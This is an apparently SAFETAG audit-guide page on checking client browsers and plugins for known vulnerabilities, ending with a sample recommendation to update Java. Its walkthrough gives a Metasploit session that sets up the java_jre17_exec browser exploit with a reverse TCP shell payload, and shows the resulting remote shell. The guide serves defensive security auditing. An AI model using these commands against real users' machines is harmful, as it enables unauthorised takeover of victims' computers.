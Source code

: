 ```yaml
---
Approach:
- Technical
Authors:
- SAFETAG
Org_size_under:
- 25
Remote_options:
- with-support
Skills_required:
- N/A
Time_required_minutes:
- 30
Title: Check user browser vulns
---
```


#### Check Browser and Plugin Vulnerabilities

##### Summary

Though modern browsers are better at self-updating, and the prevalence of powerful plugins like flash and java are slowly declining, it is valuable to ensure that the browsers in use have updated plugins and are themselves updated.

##### Overview

##### Materials Needed

* Metasploit

##### Considerations

##### Walkthrough

###### Outdated Java browser plugins

While the threat described below is more severe if carried out by a local attacker (as they can more readily direct the victim to a malicious Web site), it also works remotely. In fact, if a user can be tricked, by a remote attacker, into clicking on a malicious email or Web link, attacks like this represent a significant perimeter threat. By compromising the victim’s machine, they can give the attacker a local point-of-presence without requiring the attacker to crack WPA keys or gain local access in some other way.

Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious Web site:

```
$ msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
+ -- --=[ 1114 exploits - 627 auxiliary - 178 post
+ -- --=[ 307 payloads - 30 encoders - 8 nops

msf > use exploit/multi/browser/java_jre17_exec

msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
PAYLOAD => java/shell/reverse_tcp

msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
LHOST => 192.168.1.123

msf exploit(java_jre17_exec) > set SRVPORT 8081
SRVPORT => 8081

msf exploit(java_jre17_exec) > set URIPATH java_test
URIPATH => java_test

msf exploit(java_jre17_exec) > run
[*] Exploit running as background job.
```

Step 2: At this point, any local user who visits http://192.168.1.123:8081/java_test, and who is running a sufficiently out-of-date version of the Java browser plugin, stands a good chance of giving the attacker full access to his computer:

```
[*] Started reverse handler on 192.168.1.123:4444

msf exploit(java_jre17_exec) >

[*] Using URL: http://0.0.0.0:8081/java_test
[*] Local IP: http://192.168.1.123:8081/java_test
[*] Server started.

msf exploit(java_jre17_exec) >

<remote shell>
```

Figure 1: Attacker in control of the victim’s computer through a remote command shell

##### Recommendation

**Sample Recommendation for outdated Java**

One or more of the organization’s laptops were seen to be running an outdated, known-vulnerable version of the Java plugin for Internet Explorer.

This version contains a vulnerability that is easily exploitable using one of the recent Java exploit modules from the widely available Metasploit security auditing framework. These modules allow an attacker to gain complete control over the computer of a victim who visits a malicious Web site hosted anywhere on the Internet. If the attacker is inside the office LAN, they can easily trick the victim into visiting that malicious Web site without the victim even knowing it.

At least one of the organization’s computers is running an outdated Java browser plugin, and exploit code is widely-available for several critical vulnerabilities in versions older than “Java 7, update 16.” All of the organization’s Java installations should be updated to the latest version. This can be troublesome, as (unlike the Windows operating system itself) Java plugins sometimes require user input before they will install updates.